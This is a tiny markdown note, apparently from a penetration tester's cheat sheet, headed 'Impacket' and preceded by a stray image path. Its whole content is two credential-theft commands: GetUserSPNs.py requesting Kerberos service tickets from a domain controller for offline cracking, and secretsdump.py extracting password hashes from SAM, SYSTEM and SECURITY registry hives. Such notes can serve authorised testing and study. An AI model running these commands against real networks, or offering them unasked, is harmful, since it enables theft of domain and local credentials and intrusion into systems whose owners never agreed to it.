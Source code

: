 # Impacket

./examples/GetUserSPNs.py -request -dc-ip 192.168.0.X domain.com/compte:password

secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
